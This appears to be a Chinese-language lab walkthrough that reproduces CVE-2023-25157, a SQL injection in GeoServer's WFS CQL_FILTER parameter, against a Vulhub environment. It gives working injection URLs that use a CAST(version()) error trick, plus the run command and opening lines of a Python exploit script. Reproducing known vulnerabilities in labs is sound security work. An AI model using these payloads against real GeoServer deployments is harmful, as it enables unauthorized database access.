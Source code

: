 访问以下url获取：
[http://192.168.43.161:8080/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities](http://192.168.43.161:8080/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities)
![image](https://github.com/user-attachments/assets/a5584879-72f5-4300-b995-44cfb4bee90e)


3.获取功能的属性

将上一步获取的typeName的name属性值拼接到url中，构成url如下：
[http://192.168.43.161:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&maxFeatures=1&outputFormat=json](http://192.168.43.161:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&maxFeatures=1&outputFormat=json)
![image](https://github.com/user-attachments/assets/cea2d033-adda-4e4c-a930-727009929003)


4.构造SQL 注入
Feature type (table) name: vulhub:example
One of attribute from feature type: name
利用这些已知参数，拼接成payload:
[http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true](http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true)



在利用漏洞前，需要目标服务器中存在类型是`PostGIS`的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- Workspace name: `vulhub`

- Data store name: `pg`

- Feature type (table) name: `example`

- One of attribute from feature type: `name`

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```SQL
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
![image](https://github.com/user-attachments/assets/b1580495-f374-4310-8785-23ac72e4f19c)



py脚本

```SQL
python CVE-2023-25157.py http://your-ip:8080/geoserver/ows
```


修改PROXY = "[http://127.0.0.1:8080/](http://127.0.0.1:8080/)" if PROXY_ENABLED else None

```SQL
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import sys
import xml.etree.ElementTree as ET
import json

# Colored output codes
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
BOLD = '\033[1m'
ENDC = '\033[0m'
```
